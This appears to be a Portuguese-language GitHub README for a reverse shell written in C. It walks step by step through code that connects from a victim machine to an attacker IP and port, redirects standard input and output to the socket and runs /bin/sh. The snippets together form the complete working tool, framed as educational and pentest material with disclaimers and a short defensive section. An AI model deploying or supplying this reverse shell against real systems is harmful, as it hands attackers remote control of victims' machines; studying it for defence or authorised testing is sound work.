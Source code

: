 # 🐚 C Reverse Shell 

Este repositório contém um código de **shell reverso escrito em linguagem C**, ideal para fins educacionais, CTFs e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**
> O uso indevido pode violar leis locais e internacionais.
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é um shell reverso escrito em C. Quando executado, ele instrui a máquina (vítima) a se conectar de volta ao atacante, oferecendo um terminal interativo com os mesmos privilégios do usuário que executou o programa.

---

### 1. Definições iniciais

```c
#define REMOTE_ADDR "192.168.0.5"
#define REMOTE_PORT 1337
```

- Define o IP e a porta do atacante.  
- O código tentará conectar-se a esse IP/porta usando TCP.

---

### 2. Estrutura do socket

```c
struct sockaddr_in sa;
sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
sa.sin_port = htons(REMOTE_PORT);
```

- Define o tipo de conexão (IPv4), IP de destino e porta de destino.

---

### 3. Criação e conexão do socket

```c
s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&sa, sizeof(sa));
```

- Cria um socket TCP e conecta ao servidor remoto (máquina atacante).

---

### 4. Redirecionamento de I/O

```c
dup2(s, 0);
dup2(s, 1);
dup2(s, 2);
```

- Redireciona entrada, saída e erro padrão para o socket:
  - stdin → socket
  - stdout → socket
  - stderr → socket

---

### 5. Execução da shell remota

```c
execve("/bin/sh", NULL, NULL);
```

- Inicia um shell interativo (`/bin/sh`) com entrada/saída ligada ao socket TCP.
- O atacante poderá interagir com a shell remotamente.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão do cliente.
- Simulações de ataque para avaliar defesa de sistemas.
- Análises forenses, educativas ou ambientes CTF.

---

## 💡 Conclusão Técnica

Este programa:

- Estabelece uma conexão reversa TCP com o atacante.
- Redireciona os descritores padrão (0, 1, 2) para o socket.
- Executa uma shell interativa com controle remoto total.
- Simples, eficaz e muito usado em exploits ou pós-exploração.

---

## 🛡️ Proteção recomendada

Para evitar que códigos como este sejam executados, algumas boas práticas incluem:

- Restringir compiladores em servidores.
- Monitorar conexões de saída.
- Usar firewalls para impedir conexões reversas suspeitas.
- Analisar uso de `execve`, `dup2`, `socket`, etc., com ferramentas de segurança.

---

## 👨‍💻 Autor

- [h4ckthreat](https://github.com/h4ckthreat)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).
